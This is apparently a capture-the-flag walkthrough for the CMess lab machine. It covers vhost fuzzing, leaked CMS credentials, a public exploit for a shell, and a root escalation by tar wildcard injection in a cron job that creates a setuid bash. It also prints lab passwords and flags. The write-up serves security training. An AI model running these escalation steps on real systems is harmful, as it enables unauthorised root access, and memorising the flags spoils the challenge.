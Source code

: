 # Initial foothold

fuzz vhosts:
![[Pasted image 20240504110842.png]]

![[Pasted image 20240504111115.png]]=> creds: andre@cmess.thm KPFTN_f2yxe%

CMS Login: http://cmess.thm/login
Admin panel: http://cmess.thm/admin/

Use the following exploit to get a shell on the system:
`searchsploit -m 51569`

# PrivEsc

## Andre

Find writeable files:
```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```
=> /opt/.password.bak

Content of /opt/.password.bak:
```txt
andres backup password
UQfsdCB7aAP6
```

Login SSH as **andre** with password **UQfsdCB7aAP6** 

User flag: thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}

## Root

List crontab:
![[Pasted image 20240504114400.png]]

Create shell script:
```bash
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash;" > shell.sh
```

Exploit cron backup:
```bash
cd /home/andre/backup
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
```

Go to /tmp and wait for the cronjob to finish.

Enjoy the root shell:
```bash
.bash -p
```

![[Pasted image 20240504123059.png]]

Root flag: thm{9f85b7fdeb2cf96985bf5761a93546a2}